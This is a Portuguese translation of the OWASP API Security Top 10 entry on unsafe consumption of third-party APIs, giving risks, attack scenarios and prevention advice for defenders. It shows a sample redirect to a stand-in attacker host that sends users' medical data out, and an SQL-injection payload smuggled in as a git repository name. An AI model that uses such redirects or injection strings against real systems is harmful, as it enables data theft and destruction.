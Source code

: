 # API10:2023 Unsafe Consumption of APIs

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Comum** : Deteção **Moderado** | Técnico **Severo** : Específico Negócio |
| Explorar este problema requer que os atacantes identifiquem e potencialmente comprometam outras APIs/serviços com os quais a API alvo está integrada. Normalmente, esta informação não está disponível publicamente ou a API/serviço integrado não é facilmente explorável. | Os desenvolvedores tendem a confiar e não a verificar os _endpoints_ que interagem com APIs externas ou de terceiros, dependendo de requisitos de segurança mais fracos, como aqueles relacionados à segurança do transporte, autenticação/autorização e validação e sanitização de dados. Os atacantes precisam identificar os serviços com os quais a API alvo se integra (fontes de dados) e, eventualmente, comprometer esses serviços. | O impacto varia de acordo com o que a API alvo faz com os dados extraídos. A exploração bem sucedida pode levar à exposição de informações sensíveis a atores não autorizados, a vários tipos de injeções ou à negação de serviço. |

## A API é vulnerável?

Os desenvolvedores tendem a confiar mais nos dados recebidos de APIs de 
terceiros do que nos dados fornecidos por utilizadores. Isso é especialmente 
verdade para APIs oferecidas por empresas bem conhecidas. Por essa razão, os 
desenvolvedores tendem a adotar padrões de segurança mais fracos, especialmente 
no que diz respeito à validação e sanitização de dados.

A API pode estar vulnerável se:

* Interage com outras APIs através de um canal não encriptado;
* Não valida e sanitiza corretamente os dados recolhidos de outras APIs antes de
  os processar ou de os passar para componentes posteriores;
* Segue redirecionamentos cegamente;
* Não limita o número de recursos disponíveis para processar respostas de
  serviços de terceiros;
* Não implementa limites de tempo para interações com serviços de terceiros;

## Exemplos de Cenários de Ataque

### Cenário #1

Uma API depende de um serviço de terceiros para enriquecer os endereços 
comerciais fornecidos pelos utilizadores. Quando um endereço é fornecido pelo 
utilizador final à API, ele é enviado para o serviço de terceiros e os dados 
retornados são então armazenados numa base de dados local compatível com SQL.

Atacantes utilizam o serviço de terceiros para armazenar um conteúdo malicioso 
de injeção SQL (SQLi) associado a um negócio criado por eles. Em seguida, visam 
a API vulnerável fornecendo um conteúdo específico que faz com que esta obtenha 
o "negócio malicioso" do serviço de terceiros. O conteúdo de SQLi acaba por ser 
executado pela base de dados, exfiltrando dados para um servidor controlado pelo
atacante.

### Cenário #2

Uma API integra-se com um fornecedor de serviços de terceiros para armazenar com
segurança informações médicas sensíveis dos utilizadores. Os dados são enviados 
através de uma conexão segura usando um pedido HTTP como o abaixo:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Atacantes encontraram uma forma de comprometer a API de terceiros, que começa a 
responder com um `308 Permanent Redirect` a pedidos como o anterior.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Como a API segue cegamente os redirecionamentos do terceiro, ela repetirá 
exatamente o mesmo pedido, incluindo os dados sensíveis do utilizador, mas desta
vez para o servidor do atacante.

### Cenário #3

Um atacante pode preparar um repositório git chamado `'; drop db;--`.

Agora, quando uma integração de uma aplicação atacada é feita com o repositório 
malicioso, uma carga de injeção SQL é utilizada numa aplicação que constrói uma 
consulta SQL, acreditando que o nome do repositório é um conteúdo seguro.

## Como Prevenir

* Ao avaliar fornecedores de serviços, analise a postura de segurança das suas
  APIs.
* Garanta que todas as interações com APIs ocorram através de um canal de
  comunicação seguro (TLS).
* Valide e sanitize sempre os dados recebidos de APIs integradas antes de os
  utilizar.
* Mantenha uma lista de permissões de locais conhecidos para os quais as APIs
  integradas podem redirecionar a sua: não siga redirecionamentos cegamente.

## Referências

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Externas

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
